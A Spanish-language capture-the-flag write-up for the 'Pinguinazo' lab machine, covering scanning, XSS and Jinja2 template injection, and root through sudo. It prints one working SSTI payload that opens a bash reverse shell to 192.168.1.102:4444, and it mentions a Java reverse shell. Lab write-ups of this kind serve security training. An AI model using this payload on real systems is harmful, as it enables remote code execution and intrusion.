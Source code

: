 # RESOLUCIÓN DE LA MÁQUINA PINGUINAZO

Abrimos la máquina y vemos su IP.

![image](https://github.com/user-attachments/assets/6db4d738-c294-4342-80e5-98d16f079a35)

Hacemos un nmap para poder ver los puertos que estan abiertos para la IP seleccionada.

![image](https://github.com/user-attachments/assets/50187b0b-16d7-4c70-bf52-3dad4b465d09)

Ahora hacemos un escaneo de el puerto que hemos visto que está abierto para saber servicios,versiones...

![image](https://github.com/user-attachments/assets/a9eb55e6-6e76-4f15-be88-969ed256f0f0)

Abrimos la web del puerto 5000.

![image](https://github.com/user-attachments/assets/7ac4c78d-5b00-40a8-bd69-eaccd8605f63)

Ahora hacemos uso de la herramienta whatweb.

![image](https://github.com/user-attachments/assets/43ff1af2-3173-4b48-9dbd-74b13652e77f)

Rellenamos los campos de la web y nos muestra esto: 

![image](https://github.com/user-attachments/assets/3b71bb80-dca0-4832-8623-c7f14b81e03c)

Como no encontramos nada vamos a hacer fuerza bruta con gobuster.

![image](https://github.com/user-attachments/assets/7fe95089-7270-45e1-a5cc-7bf04f644ff6)

Abrimos el directorio /console y vemos esto: 

![image](https://github.com/user-attachments/assets/a542d351-43ab-4073-abaa-31c44c4ba285)

Cuando le damos a "CONFIRM PIN", me salta un alert, quiere decir que alomejor es vulnerable a inyección xss.

![image](https://github.com/user-attachments/assets/e049a5b1-5e64-4e8b-b365-45193871dd7b)

Hacemos xss.

![image](https://github.com/user-attachments/assets/1dce850c-1ec6-4824-ab1a-a49b5e9201ed)

Y nos salta el alert, así que ya sabemos que la web es vulnerable a Cross-Site Scripting (XSS).

![image](https://github.com/user-attachments/assets/6cbc2fb4-339b-46a1-8629-4ac2c416199f)

También es vulnerable a SSTI.

![image](https://github.com/user-attachments/assets/26d3b9ab-139f-4728-bf9c-31b6415f2135)

![image](https://github.com/user-attachments/assets/c62312d9-00bd-4a2c-bcb8-10ab8d1f00ff)

Sabiendo que es vulnerable a SSTI intentamos inyectar código para que nos de el id.

El código esta en el apartado de python / jinja, ya que es lo que usa la web.

Esta es la web: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---basic-injection

![image](https://github.com/user-attachments/assets/663a9eca-a49e-4c58-9173-3154d7fa00cc)

![image](https://github.com/user-attachments/assets/bd546821-b853-48fd-8e59-7afb8107ed16)

Hacemos una revershell desde el cuestionario de la web y ganamos acceso.

![image](https://github.com/user-attachments/assets/f00345c1-272a-4b50-844c-3d0b9b78d7d8)

El código que hemos usado para poder ganar acceso a la máquina es este: 

{% for x in ().__class__.__base__.__subclasses__() %} {% if "warning" in x.__name__ %} {{x()._module.__builtins__['__import__']('os').popen('bash -c "sh -i >& /dev/tcp/192.168.1.102/4444 0>&1"').read().zfill(417)}} {% endif %} {% endfor %}

Hacemos sudo -l y vemos esto:

![image](https://github.com/user-attachments/assets/2a500514-54b0-4812-b31a-f601c2e46509)

Creamos un archivo shell.java con una revershell (java).

![image](https://github.com/user-attachments/assets/36a5377e-235c-4dd0-a9c2-2709ab14619b)

Ejecutamos el comando.

![image](https://github.com/user-attachments/assets/79542497-31bd-49d1-ad42-97be6ba877ef)

Nos ponemos en escucha en otra terminal y ganamos acceso como root.

![image](https://github.com/user-attachments/assets/beb2ddac-1526-491b-9df9-784b9c5ddc6d)




